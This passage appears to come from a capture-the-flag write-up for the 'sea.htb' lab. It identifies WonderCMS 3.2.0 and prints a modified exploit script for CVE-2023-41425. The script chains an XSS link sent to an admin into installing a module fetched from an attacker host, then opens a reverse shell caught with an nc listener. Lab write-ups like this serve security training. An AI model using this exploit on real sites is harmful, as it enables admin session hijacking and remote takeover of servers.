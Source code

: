 Check version in */themes/bike/version* and see that it is version 3.2.0, so the website uses `WonderCMS 3.2.0` for the theme of the website.

#### Shell as www-data
###### Exploiting XSS
The `WonderCMS 3.2.0` used by the website is vulnerable to [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425), allowing RCE via XSS vulnerability, which is found at */contact.php* endpoint. Clone the repository in the PoC link given above, then check the source code *exploit.py*. The exploit script has some bugs, so it has to be modified slightly. Here is the final exploit script.

*exploit.py*
```
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "http://sea.htb";
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = url+"/?installModule=http://10.10.16.2:8000/main_modified.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", url+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", url+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();

     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")
```